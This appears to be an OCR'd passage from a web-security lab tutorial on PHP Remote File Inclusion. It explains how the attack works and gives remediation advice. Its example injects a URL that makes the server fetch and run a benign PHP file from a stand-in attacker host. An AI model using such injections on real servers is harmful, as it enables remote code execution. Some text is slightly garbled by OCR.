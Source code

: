 Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that *the `allow_url_open` options needs to be `on`*.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain ***Remote Code Execution*** on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server. 
### RFI Steps

The following figure is an example of steps for a successful RFI attack! Let's say the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message `Hello THM`.

```PHP
:<?php echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is not input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the `Hello THM` message. 
## Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated to the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vuinerabilities if your web app doesn't need them, such as `allow_url_fopen` and `allow_url_include`. 
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need. 
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.
8. 
